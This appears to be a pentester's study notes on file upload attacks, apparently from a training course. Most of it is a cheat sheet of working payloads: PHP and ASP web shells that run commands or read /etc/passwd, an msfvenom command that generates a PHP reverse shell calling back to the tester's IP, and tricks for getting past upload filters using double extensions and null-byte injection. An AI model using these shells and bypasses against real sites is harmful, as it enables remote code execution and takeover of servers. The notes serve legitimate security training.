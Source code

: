 # File upload attacks notes

One easy method to determine what language runs the web application is to visit the /index.ext page, where we would swap out ext with various common web extensions, like php, asp, aspx, among others, to see whether any of them exist.

We can use a fuzzer to identify this as well

To test if we can abuse php site with a webshell we can save a file with this to upload:

```
<?php echo "Hello HTB";?>
```

## Cheat Sheets

### Web Shells

|Web Shell 	|Description|
|:----|:----|
|\<?php file_get_contents('/etc/passwd'); ?> 	|Basic PHP File Read|
|\<?php system('hostname'); ?> 	|Basic PHP Command Execution|
|\<?php system($_REQUEST['cmd']); ?> |	Basic PHP Web Shell|
|\<% eval request('cmd') %> |	Basic ASP Web Shell|
|msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php 	|Generate PHP reverse shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)| 	PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) |	PHP Reverse Shell|
|[Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) |	List of Web Shells and Reverse Shells|

### Bypasses

|Command 	|Description|
|:----|:----|
|Client-Side |Bypass 	|
|[CTRL+SHIFT+C] |	Toggle Page Inspector|
|Blacklist Bypass 	|
|shell.phtml 	|Uncommon Extension|
|shell.pHp 	|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) 	|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) 	|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) 	|List of Web Extensions|
|Whitelist Bypass 	|
|shell.jpg.php |	Double Extension|
|shell.php.jpg |	Reverse Double Extension|
|%20, %0a, %00, %0d0a, /, .\, ., … |	Character Injection - Before/After Extension|
|Content/Type Bypass 	|
|[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt) |	List of Web Content-Types|
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) 	|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) 	|List of File Signatures/Magic Bytes|

### Limited Uploads

|Potential Attack 	|File Types|
|:----|:----|
|XSS 	|HTML, JS, SVG, GIF|
|XXE/SSRF |	XML, SVG, PDF, PPT, DOC|
|DoS 	|ZIP, JPG, PNG|
